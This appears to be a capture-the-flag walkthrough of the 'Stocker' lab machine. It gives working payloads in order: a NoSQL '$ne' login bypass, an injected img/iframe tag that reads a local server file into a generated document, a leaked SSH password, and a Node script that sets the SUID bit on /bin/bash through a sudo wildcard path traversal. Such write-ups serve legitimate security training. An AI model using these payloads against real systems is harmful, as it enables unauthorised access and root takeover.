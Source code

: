 # Writeup - Stocker Linux Easy

## Initial Recon
```bash
ping -c 1 10.10.11.196 -R
nmap -p- --open --min-rate 5000 -vvv -n -Pn 10.10.11.196 -oG allPorts
nmap -sCV -p22, 80 10.10.11.196 -oN targetedPorts
gobuster dir -u http://stocker.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
# gobuster for subdomains
```
## Exploiting nosql injection: Login bypass

If you want to try sending the payload as JSON, update the Content-Type and ensure the server accepts JSON input:
```json
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 75
Origin: http://dev.stocker.htb
Connection: keep-alive
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AeE6WpibBs4gMiv-vhTnFG70k72Nyff3O.aoVHyLeUmoDHJ2vttbUNuIty36zOOk3p68C%2BdukR6gw
Upgrade-Insecure-Requests: 1
Priority: u=0, i

{
        "username":{
                "$ne":"test"
        },
        "password":{
                "$ne":"test"
        }
}
```

Leaking the password via figuring out it's route index.js

```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Content-Length: 383
Origin: http://dev.stocker.htb
Connection: keep-alive
Cookie: connect.sid=s%3AeE6WpibBs4gMiv-vhTnFG70k72Nyff3O.aoVHyLeUmoDHJ2vttbUNuIty36zOOk3p68C%2BdukR6gw
Priority: u=0

{
  "basket": [
    {
      "_id": "638f116eeb060210cbd83a8d",
      "title": "<img src=\"xasdasdasd\" onerror=\"document.write('<iframe src=file:///var/www/dev/index.js height=100% width=100%></iframe>')\"/>",
      "description": "It's a red cup.",
      "image": "red-cup.jpg",
      "price": 32,
      "currentStock": 4,
      "__v": 0,
      "amount": 1
    }
  ]
}
```

We get a user shell via a remote ssh login:
```bash
ssh angoose@stocker.htb password: IHeardPassphrasesArePrettySecure
id
sudo -l
cd /root/
```
we can only run this resource: 
usr/bin/node usr/local/scripts/*js
the *js wildcard allows us to inject a malicious file that can run shell commands in node ../../../tmp/malicious.js
Create a malicious.js in /tmp/
```js
const { exec } = require("child_process");

exec("chmod u+s /bin/bash", (error, stdout, stderr) => {
    if (error) {
        console.log(`error: ${error.message}`);
        return;
    }
    if (stderr) {
        console.log(`stderr: ${stderr}`);
        return;
    }
    console.log(`stdout: ${stdout}`);
});
```

we execute with sudo usr/bin/node /usr/local/scripts/../../../tmp/malicious.js
finally bash -p y whoami? root.

